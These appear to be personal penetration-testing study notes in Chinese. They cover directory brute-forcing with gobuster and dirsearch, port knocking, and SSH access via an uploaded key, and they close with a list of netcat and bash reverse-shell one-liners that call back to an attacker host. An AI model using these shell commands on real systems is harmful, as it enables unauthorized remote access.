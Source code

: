 crul检查协议

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image1.png){width="5.760416666666667in"
height="1.9320100612423448in"}

dirb有时候扫描不到，所以我们用

gobuster dir -u http://172.16.123.106 -x php,bak,txt,html -w
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

同一个字典dirb扫不到而这个可以扫到

最推荐的是dirsearch工具

dirsearch -u url

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image2.png){width="5.760416666666667in"
height="3.8763363954505685in"}

**端口碰撞：端口碰撞是一种通过在一组预先指定的关闭端口上产生连接请求，从外部打开防火墙上的端口的方法。一旦收到正确的连接请求序列，防火墙规则就会被动态修改，以允许发送连接请求的主机通过特定端口进行连接。**

端口碰撞的主要目的是防止攻击者通过进行端口扫描来扫描系统中潜在的可利用服务，因为除非攻击者发送正确的碰撞序列，否则受保护的端口将显示为关闭。

**kali密码本存放位置**

/[usr]{.mark}/ [share]{.mark}/[wordlists]{.mark}

**如果发现有ftp登录home目录可以考虑是否可以传私钥然后ssh登录提权**

**nc反弹**

被控端：nc -lvvp 6666 -e /bin/sh

控制端：nc 本机ip 6666

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

没有-e参数的反弹shell：

控制端：nc -lvvp 6666

被控端：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f \| /bin/sh -i 2\>&1 \| nc
攻击机ip 6666 \>/tmp/f

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

控制端：nc -lvvp 6666

被控端：mknod backpipe p;nc 攻击者ip 6666 0\<backpipe \| /bin/bash
1\>backpipe 2\>backpipe

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--

控制端：nc -lvvp 6666

被控端：bash -i \>&/dev/tcp/攻击者ip/6666 0\>&1

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--
